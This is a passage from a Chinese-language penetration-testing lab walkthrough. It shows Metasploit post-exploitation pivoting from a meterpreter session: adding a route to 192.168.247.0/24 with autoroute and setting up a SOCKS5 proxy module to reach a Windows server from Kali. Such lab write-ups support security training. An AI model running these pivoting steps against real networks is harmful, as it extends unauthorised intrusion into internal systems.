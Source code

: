 ```
route
```

![image-20241211000301790](https://zyysite.oss-cn-hangzhou.aliyuncs.com/202412111439387.png)

添加192.168.247.0/24的路由，给Kali和win server建立通道

```
run autoroute -s 192.168.247.0/24
```

![image-20241211000339195](https://zyysite.oss-cn-hangzhou.aliyuncs.com/202412111439398.png)

```
background
```

退出meterpreter,转到后台运行

![image-20241211000403060](https://zyysite.oss-cn-hangzhou.aliyuncs.com/202412111439741.png)

打印路径，可以看到192.168.247.0在后台运行

```
route print
```

![image-20241211000437264](https://zyysite.oss-cn-hangzhou.aliyuncs.com/202412111439757.png)

```
use auxiliary/server/socks_proxy

options
```

使用sock代理相关模块

![image-20241211000518079](https://zyysite.oss-cn-hangzhou.aliyuncs.com/202412111439775.png)

```
set version 5

set srvhost 127.0.0.1

show options
```

配置相关版本和攻击者ip

![image-20241211000626447](https://zyysite.oss-cn-hangzhou.aliyuncs.com/202412111439796.png)

```
run

jobs
```
